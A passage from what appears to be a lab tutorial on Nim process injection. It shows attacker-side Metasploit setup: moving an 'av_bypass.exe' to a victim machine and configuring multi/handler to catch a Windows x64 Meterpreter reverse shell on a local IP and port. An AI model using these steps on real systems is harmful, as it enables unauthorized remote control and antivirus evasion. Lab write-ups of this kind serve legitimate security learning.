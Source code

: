 =======================================================

\<\< Development Machine \>\> 
 
 First, we transfer the newest av_bypass.exe file over to our Victim Machine.  Use whatever method works for you.

\<\< Attacker Machine \>\> 

On our Attacker Machine we need to start and configure Metasploit to receive the Meterpreter reverse shell.  Depending on your setup, your prompts and the output may look different than what is shown in the following screenshots.

    msfconsole

![](/images/nim_proc_inject_pt1/56. msfconsole.png)

    ifconfig

![](/images/nim_proc_inject_pt1/57. ifconfig.png)

Here we need to note your interface with access to the same network as the Victim Machine.  Mine is interface eth0 with IP address 192.168.3.28, which is the IP address we used earlier in our msfvenom command.  

The listener we will use to receive our Meterpreter reverse connection is Metasploit's built in multi/handler:

    use multi/handler
    
    show options

![](/images/nim_proc_inject_pt1/58. multi_handler1.png)

Here we see the payload defaults to "generic/shell_reverse_tcp" and the LHOST and LPORT are set to default.  We need to input these options so they will work with our payload:

    set payload windows/x64/meterpreter_reverse_tcp  [non-staged]
    
    set lhost eth0
    
    set lport 1701
    
    show options   

![](/images/nim_proc_inject_pt1/59. multi_handler2.png)

Here we have set the payload we expect to receive to the same as our msfvenom command.  We also set the listener to the matching interface and port on our Attacker Machine, confirmed by the ifconfig from a few steps ago.  We are now ready to run the listener:

    exploit -j

![](/images/nim_proc_inject_pt1/60. exploit-j.png)


With our Attacker Machine configured and listening for the connection, we can move back to the Victim Machine.
